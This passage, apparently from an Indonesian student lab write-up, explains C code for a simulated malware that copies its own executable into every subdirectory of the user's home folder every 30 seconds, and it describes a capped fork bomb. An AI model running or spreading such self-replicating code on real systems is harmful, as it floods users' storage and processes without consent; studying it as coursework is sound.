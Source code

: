```c
        if (entry->d_type == DT_REG) continue;
        if (entry->d_type == DT_DIR) {
            snprintf(newpath, sizeof(newpath), "%s/%s", baseDirpath, entry->d_name);
            cloneFile(newpath, filename, file);
        }
    }

    closedir(dir);
    return 0;
}
```

Untuk function `trojan` adalah handler process untuk melakukan `propagation` dari malwarenya, dimana akan melakukan copy dari self filenya sendiri ke home directory user saat ini secara recursive.

```c
int trojan() {
    char self[1024];
    ssize_t len = readlink("/proc/self/exe", self, sizeof(self) - 1);
    if (len == -1) return 1;
    self[len] = '\0';

    char *filename = basename(self);
    char *home = getenv("HOME");
    if (!home) {
        struct passwd *pw = getpwuid(getuid());
        if (pw) {
            home = pw->pw_dir;
        }
    }

    FILE *fp = fopen(self, "rb");
    if (!fp) {
        fclose(fp);
        return 1;
    };

    while (1) {
        cloneFile(home, filename, fp);
        sleep(30);
    }

    fclose(fp);
    return 0;
}
```

Untuk poin d bisa dilihat bahwa penerapan sleep dan while loop sudah menjadi proof bahwa process ini akan tetap hidup diinterval 30 detik.

Point **e - h**

Untuk poin e dan h ditujukan untuk melakukan simulasi `fork bomb` dimana program akan melakukan forking process secara terus menerus. Pada aslinya fork bomb tidak akan melakukan batasan berapa forking process yang akan dilakukan, namun pada kasus ini dibatasi hanya 10 process saja.
